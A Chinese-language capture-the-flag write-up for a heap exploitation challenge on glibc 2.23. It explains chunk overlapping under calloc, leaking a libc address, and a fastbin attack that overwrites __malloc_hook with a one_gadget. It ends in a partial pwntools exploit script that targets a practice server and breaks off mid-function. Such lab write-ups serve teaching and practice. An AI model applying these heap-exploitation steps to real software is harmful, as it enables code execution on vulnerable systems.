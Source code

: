 首先，这道题中**对于内存的分配使用的是calloc而非malloc函数**，这使得我们要想获得libc的加载地址必须首先进行堆块重叠后释放内部堆块，这样才能够通过读取外部堆块获取关键地址。另外，**本题的堆块大小保存在一个单独的数组之中，可读取的大小也在这里保存，因此直接在堆中修改chunk的size并不能增加我们读取的长度**。要想实现堆块的重叠就必须首先释放堆块，通过堆溢出修改堆块的size后分配回来。但这样的话，由于calloc的特性，堆块中的所有内容都将被抹除，也就无法获取到地址的值。因此，要保留地址的值，我们不能将这个堆块全部分配回来。要知道，虽然内部重叠堆块的prev_size和size等信息虽然被清零，但仍然能够读取后面的内容，所以我们选择将修改过大小的堆块部分分配回来，留下一个last_remainder堆块保留在原先的内部堆块的内部。这样就可以通过访问内部堆块获取到地址的值了。
![](2.png)

获取到了这里的地址，我们就可以获取到system函数和__free_hook的地址。本题环境为2.23，无tcache的影响，有通过fastbin attack修改__malloc_hook的可行性。

这是一开始__malloc_hook附近的情况：
![](3.png)
要想在__malloc_hook附近分配chunk，首先需要通过检查：
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
  {
    errstr = "malloc(): memory corruption (fast)";
  errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
  }
```
下面是fastbin_index的宏定义：
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```
我们可以通过地址错位达到目的：

|address|+0|+1|+2|+3|+4|+5|+6|+7
|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
|0x7fc36e4ddaf0|60|c2|4d|6e|c3|<font color=red>7f</font>|<font color=red>00</font>|<font color=red>00</font>|
|0x7fc36e4ddaf8|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|00|00|00|
|0x7fc36e4ddb00|a0|ee|19|6e|c3|7f|00|00|

红色部分刚好能通过这个检查，需要使fd变为__malloc_hook-0x23才行，其对应的fastbin应该是存放0x70大小chunk的fastbin，因此我们要事先分配好0x70大小的chunk然后释放它，修改fd指针后再申请回来即可。
拿到__malloc_hook处的chunk后向__malloc_hook写入one_gadget即可，尝试了4个只有一个能成功，而且最后一次分配chunk还必须在interactive之后手动分配，自动分配打远程会卡住......

exp:
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

io = process('./pwn')
# io = remote('node4.buuoj.cn', 29330)

in_use = [False] * 0x10		# in_use array
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

def allocate(size):
	io.sendlineafter(b'Command: ', b'1')
	io.sendlineafter(b'Size: ', str(size).encode())
	io.recvuntil(b'Allocate Index ')
	allocated_index = int(io.recvuntil('\n', drop=True), 10)
	in_use[allocated_index] = True
	
def fill(index, size, content):
	io.sendlineafter(b'Command: ', b'2')
	io.sendlineafter(b'Index: ', str(index).encode())
```